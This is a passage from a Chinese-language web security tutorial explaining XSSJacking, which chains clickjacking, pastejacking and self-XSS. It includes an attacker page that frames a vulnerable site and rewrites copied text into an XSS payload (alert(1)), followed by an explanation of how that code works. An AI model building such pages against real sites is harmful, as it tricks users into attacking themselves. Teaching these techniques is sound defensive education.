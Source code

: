 
四、XSS劫持
-------

XSS劫持（XSSJacking）是由Dylan Ayrey所提出的一种新型XSS攻击，可窃取受害者的敏感信息。XSS劫持需要其他三种技术配合使用，分别是点击劫持，粘贴劫持以及Self-XSS，甚至还需要一些社会工程学的帮助。
要构成一个XSS劫持攻击有以下几种必要条件：

    1.目标网站必须有点击劫持漏洞

    2.Self-XSS

    3.粘贴劫持

Self-XSS(自跨站脚本攻击)是一种由受害者自己输入XSS payload触发才能成功的XSS攻击行为，就是我们常说的自插。再加上复制粘贴，我们现在就可以想一想漏洞利用的思路了，先来看一个例子：
这是一个有self-xss和点击劫持漏洞的网站：
![此处输入图片的描述][10]
当用户输入xsscode可以执行，但是xss自己打自己没有用处，攻击者就想到了使用点击劫持，但是怎样让用户输入payload呢？攻击者建了这样的网站：
![此处输入图片的描述][11]
当用户注册时会让用户输入邮箱，输入完之后会让用户重新输入。一般来说邮箱的长度在10位以上，很多人就会复制上面输入过的，再粘贴到下面。如果用户真的粘贴了，那么攻击者也就达到目的了：
![此处输入图片的描述][12]

可以看到在粘贴之后已经完成xss攻击。我们来看一下网站源码：

    <html>
        <head>
        </head>
        <body>
            Enter your email below to register:
            </br>
            <textarea autofocus style="width:220px; height:35px;"></textarea>
            </br>
            Repeat your email:
            </br>
            <iframe style="width:230px; height:50px;" frameBorder="0" src="index.html"></iframe>
            </br>
            <input type="submit"></input>
            <script>
                document.addEventListener('copy', function(e){
                    console.log(e);
                    e.clipboardData.setData('text/plain', '\x3cscript\x3ealert(1)\x3c/script\x3e');
                    e.preventDefault(); // We want our data, not data from any selection, to be written to the clipboard
                });
            </script>
        </body>
    </html>

可以看到`<iframe style="width:230px; height:50px;" frameBorder="0" src="index.html"></iframe>`将存在点击劫持和self-xss漏洞的网站插到了攻击者的网站中。

    <script>
                document.addEventListener('copy', function(e){
                    console.log(e);
                    e.clipboardData.setData('text/plain', '\x3cscript\x3ealert(1)\x3c/script\x3e');
                    e.preventDefault(); // We want our data, not data from any selection, to be written to the clipboard
                });
    </script>
这段代码的作用是当用户存在复制操作时，就将xsscode存入到用户的剪贴板中，这样当用户粘贴时，就可以将payload粘贴到存在self-xss的3网站中，完成攻击。


  [1]: https://raw.githubusercontent.com/StarryPath/iframe-png/master/QQ%E6%88%AA%E5%9B%BE20171231145113.png
  [2]: https://raw.githubusercontent.com/StarryPath/iframe-png/master/QQ%E6%88%AA%E5%9B%BE20171231145448.png
  [3]: https://raw.githubusercontent.com/StarryPath/iframe-png/master/QQ%E6%88%AA%E5%9B%BE20171231145708.png
  [4]: https://raw.githubusercontent.com/StarryPath/iframe-png/master/201608261472195714792392.png
  [5]: https://raw.githubusercontent.com/StarryPath/iframe-png/master/201608261472195765627779.png
  [6]: https://raw.githubusercontent.com/StarryPath/iframe-png/master/201608261472195746923033.png
  [7]: https://raw.githubusercontent.com/StarryPath/iframe-png/master/201608261472195789919141.png
  [8]: https://raw.githubusercontent.com/StarryPath/iframe-png/master/QQ%E6%88%AA%E5%9B%BE20171231214444.png
  [9]: https://raw.githubusercontent.com/StarryPath/iframe-png/master/QQ%E6%88%AA%E5%9B%BE20171231214551.png
  [10]: https://raw.githubusercontent.com/StarryPath/iframe-png/master/QQ%E6%88%AA%E5%9B%BE20171231164950.png
  [11]: https://raw.githubusercontent.com/StarryPath/iframe-png/master/QQ%E6%88%AA%E5%9B%BE20171231165449.png
  [12]: https://raw.githubusercontent.com/StarryPath/iframe-png/master/QQ%E6%88%AA%E5%9B%BE20171231165917.png
  [13]: https://raw.githubusercontent.com/StarryPath/iframe-png/master/QQ%E6%88%AA%E5%9B%BE20171231173027.png